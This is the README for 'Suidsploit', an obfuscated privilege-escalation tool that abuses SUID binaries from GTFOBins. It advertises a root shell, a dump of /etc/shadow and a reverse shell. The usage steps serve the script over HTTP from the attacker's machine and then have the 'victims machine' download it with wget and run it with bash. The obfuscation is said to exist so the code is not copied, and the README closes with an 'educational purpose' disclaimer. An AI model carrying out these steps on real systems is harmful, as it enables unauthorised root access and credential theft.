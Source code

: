 # Suidsploit by Tizun & Silky

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

Suidsploit is a Tool which can exploit 137 files from GTFO-Bins.
On successful exploitation you can gain:

- Root Shell
- Output of /etc/shadow
- Reverse shell

![alt text](https://github.com/S1lkys/Suidsploit/blob/master/Suidsploit.png)

# Why is it obfuscated?

- Simply because the creators don't want that their program is ripped

# Usage:
Open your favorite Terminal and run these commands.
On your machine:
- Download Suidsploit
- Start a HTTP-Server


$ git clone https://github.com/S1lkys/Suidsploit.git

$ cd Suidsploit/

$ python -m SimpleHTTPServer 80


On victims machine:
- download Suidsploit
- make it executable
- execute Suidsploit


$ wget http://192.168.xxx.xxx/Suidsploit.ob.sh

$ chmod +x Suidsploit.ob.sh

$ bash Suidsploit.ob.sh
### Todos

- Fix found Bugs
- Add new Tools

License
----
For educational Purpose only!
---
